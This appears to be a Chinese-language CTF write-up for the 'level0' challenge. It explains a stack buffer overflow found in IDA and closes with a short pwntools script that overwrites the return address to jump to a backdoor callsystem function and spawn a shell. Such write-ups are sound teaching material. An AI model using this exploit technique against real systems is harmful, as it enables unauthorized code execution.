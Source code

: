 ## 0x001 程序分析

使用IDA pro加载程序，**main**函数中使用了 **write** 打印了一个字符串，之后调用了 **vulnerable_function** 函数

![](1.png)

**vulnerable_function** 函数中，使用 **read** 函数接收输入，接收输入的长度为 0x200 字节

![](2.png)

## 0x002 漏洞分析

在 **vulnerable_function** 函数中，可以看到 **buf** 位于 **rbp-0x80** 处，也就是说，如果 **buf** 的长度超过 0x80 个字节，就会覆盖到 **rbp**，超过 0x88 个字节，就会覆盖到返回地址，如图所示：

![](5.png)

由于 **read** 函数接受输入的长度可以为 0x200 字节，远超过 0x80 字节, 因此会造成栈溢出漏洞，控制返回地址。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：

![](4.png)

程序只开启了NX保护，在堆栈上没有可执行权限。

仔细观察程序发现有个后门函数 **callsystem**，可直接获取系统权限：

![](3.png)

那么就可以通过栈溢出漏洞，将 **vulnerable_function** 函数的返回地址覆盖为 **callsystem** 函数的地址，从而达到控制程序执行流程、获取系统权限的目的。

python3 exp如下：

```
from pwn import *

p = process("./level0")

# shellcode = buf填充 + rbp + 返回地址
shellcode = b"A" * 128 + b"B" * 8 + p64(0x400596)

p.recvuntil("Hello, World\n")
p.sendline(shellcode)
p.interactive()
```
